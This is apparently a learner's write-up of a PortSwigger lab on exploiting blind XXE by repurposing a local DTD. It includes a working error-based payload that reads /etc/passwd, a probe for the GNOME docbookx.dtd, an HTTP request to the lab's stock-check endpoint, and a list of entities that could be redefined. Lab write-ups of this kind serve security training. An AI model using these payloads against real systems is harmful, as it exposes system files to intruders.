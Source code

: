    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>

 For example, Linux systems using the GNOME desktop environment often have a DTD file at /usr/share/yelp/dtd/docbookx.dtd. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    %local_dtd;
    ]>



# ***[6. Lab: Exploiting XXE to retrieve data by repurposing a local DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)***

 Solved

This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, trigger an error message containing the contents of the /etc/passwd file.
You'll need to reference an existing DTD file on the server and redefine an entity from it. 

**Hint**: Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.

1. check for existing DTD:
```
    POST /product/stock HTTP/1.1

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">%local_dtd;]><stockCheck>
```
response:
```
    HTTP/1.1 200 OK

```

we know this dtd exist (if not present parser will return error: 
>*"XML parser exited with error: java.io.FileNotFoundException: /usr/share/yelp/dtd/notreal.dtd (No such file or directory)"*)

2. check for the dtd [online](https://github.com/GNOME/yelp/blob/master/data/dtd/docbookx.dtd)and observe a list of potential enteties to repurpose:
```xml
%ISOamsa;
%ISOamsb;
%ISOamsc;
%ISOamsn;
%ISOamso;
%ISOamsr;
%ISObox;
%ISOcyr1;
%ISOcyr2;
%ISOdia;
%ISOgrk1;
%ISOgrk2;
```